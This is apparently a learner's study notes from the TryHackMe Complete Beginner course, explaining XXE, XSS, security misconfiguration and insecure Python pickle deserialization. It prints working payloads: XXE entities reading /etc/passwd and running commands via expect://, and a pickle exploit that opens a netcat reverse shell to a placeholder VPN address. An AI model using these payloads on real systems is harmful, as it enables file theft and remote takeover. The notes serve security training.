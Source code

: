 # TryHackMe: Complete Beginner

* **author**:: Nathan Acks
* **date**:: 2021-10-06

## OWASP Top 10

### (Severity 04) XML External Entity

As with injection attacks, XML external entity (XXE) attacks are broken down into two types: in-band (analogous us to active injection attacks) and out-of-band (OOB-XXE or "blind" XXE, which are of course analogous to blind injection attacks).

The encoding/version bit of an XML document is called the "prolog".

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

Also, there is one and only one root element in an XML document. And XML is case-sensitive. Whee!

DTDs look very XML-like themselves. Using the actual example from TryHackMe, this DTD:

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to, from, heading, body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

Defines this XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>foo</to>
    <from>bar</from>
    <heading>baz</heading>
    <body>etc.</body>
</note>
```

(`#PCDATA` indicates "parsable character data" - an XML-encoded string.) 

There are three basic important XML bits here:

* `!DOCTYPE` defines the document type *and* the root element.
* `!ELEMENT` defines additional elements (so if I understand this correctly, a !DOCTYPE declaration must contain at least one !ELEMENT with the same name).
* `!ENTITY` defines entities like `&gt;` - basically shortcuts for other data. There seems to be a lot more to XML entities than just this though…

The SYSTEM keyword can be included in !ENTITY declarations (or in the XML document !DOCTYPE declaration), and means "read this from the current system".

Basically, you can think of the bit between the brackets (`[]`) in the DTD as getting slotted into the URI specifying the DTD in the XML !DOCTYPE. In fact, we can insert additional document type definitions into the end of a !DOCTYPE statement in this way; combining this with the SYSTEM declaration can allow us to read any files the webserver has access to.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]>
<root>&read;</root>
```

This basically strikes me as more-or-less the same thing as an injection attack, just that we're targeting the XML parser rather than the website code.

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

It looks like this is something that would be more commonly attacked over an API than directly through a web front-end.

* [2021-10-05 — TryHackMe: Complete Beginner](2021-10-05-tryhackme-complete-beginner.md)
* [ENTITY Declaration](https://xmlwriter.net/xml_guide/entity_declaration.shtml)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

### (Severity 06) Security Misconfiguration

Basically, this about the use of defaults or bad configurations of existing security controls, whereas "broken access control" (which didn't really include anything worth noting explicitly) is about missing or non-functional controls.

### (Severity 07) Cross-Site Scripting

Three varieties:

* Stored XSS (saved to the website database)
* Reflected XSS (included in the user request, for example via a malicious link)
* [DOM-Based XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting#DOM_Based_XSS_.28AKA_Type-0.29) (a little unclear what this is, but it looks like it's basically similar to a reflection attack except that everything happens client-side)

[XSS-Payloads is a library of potentially useful XSS tools.](http://www.xss-payloads.com/)

Mostly, this is about injecting `<script/>` tags.

### (Severity 08) Insecure Deserialization

Basically, this is about trusting user-provided input to determine state.

On the low end, this can be something like using a cookie to determine user privileges.

But on the high end, if the application is actually *executing* data provided by the user *as code*.

So what's the difference between this and injection? (As far as I can tell) In command injection we're abusing an existing function to get the web application to run a command (system, SQL, whatever) for us, while insecure deserialization is specifically about manipulating the internal state of the application (which can include the before-mentioned data-as-code trick).

Where the name of this vulnerability starts to make more sense is when the application is encoding (serializing) objects or other data structures, storing them on the user side, and then decoding (deserializing) the structure at a later time and using / trusting it without further checks.

In the TryHackMe example we're attacking the Python pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

[This post is much clearer than TryHackMe when it comes to explaining how we're attacking pickle.loads().](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Anyways, the TryHackMe room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (YOUR_TRYHACKME_VPN_IP gets replaced by your VPN IP):

```python
#!/usr/bin/env python

import pickle
import sys
import base64

command =  'rm /tmp/f; '
command += 'mkfifo /tmp/f; '
command += 'cat /tmp/f | '
command += '/bin/sh -i 2>&1 | '
command += 'netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

What's getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there's our reverse shell!

(SIDE NOTE: Isn't `nc` a more common name for `netcat`? Debian provides links to both in /etc/aleternatives, but it seems best not to assume we're on a Debian system…)

* [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)
